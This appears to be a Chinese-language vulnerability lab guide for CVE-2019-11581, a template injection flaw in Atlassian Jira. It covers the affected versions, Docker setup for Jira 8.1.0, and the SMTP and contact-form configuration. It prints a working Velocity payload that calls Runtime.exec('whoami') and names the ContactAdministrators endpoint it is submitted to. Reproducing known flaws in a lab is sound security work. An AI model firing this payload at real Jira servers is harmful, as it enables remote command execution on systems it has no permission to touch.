 # Atlassian Jira 模板注入漏洞（CVE-2019-11581）

Atlassian Jira是企业广泛使用的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。在多个版本中发现了一个模板注入漏洞，攻击者可以利用该漏洞执行任意命令。

受影响版本包括：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x - 7.13.x（在7.6.14、7.13.5版本修复）
- 8.0.x - 8.2.x（在8.0.3、8.1.2、8.2.3版本修复）

参考链接：

- <https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html>
- <https://jira.atlassian.com/browse/JRASERVER-69532>
- <https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw>

## 环境搭建

执行如下命令启动Jira Server 8.1.0：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`进入安装向导：

1. 切换到你偏好的语言
2. 选择"将其设置为我"（第一个选项）
3. 从Atlassian官方申请Jira Server测试许可证（不要选择Data Center或Addons）
4. 完成安装过程

注意：在内存有限的机器上，安装可能会失败或需要较长时间。建议使用至少4GB内存的机器进行安装和测试。

![](7.png)

在`/secure/admin/AddSmtpMailServer!default.jspa`添加SMTP邮件服务器：

![](8.png)

在系统设置`/secure/admin/ViewApplicationProperties.jspa`中启用"联系管理员表单"：

![](9.png)

创建一个示例项目以完成设置。

## 漏洞复现

PoC与CVE-2019-3396类似，可以使用以下payload：

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

你也可以选择：

1. 运行`poc.py`，或者
2. 直接在`/secure/ContactAdministrators!default.jspa`提交PoC

![](11.png)

![](12.png)

如果没有在smtpd中看到数据，可能是邮件队列阻塞，请在`/secure/admin/MailQueueAdmin!default.jspa`检查邮件队列：

![](13.png)
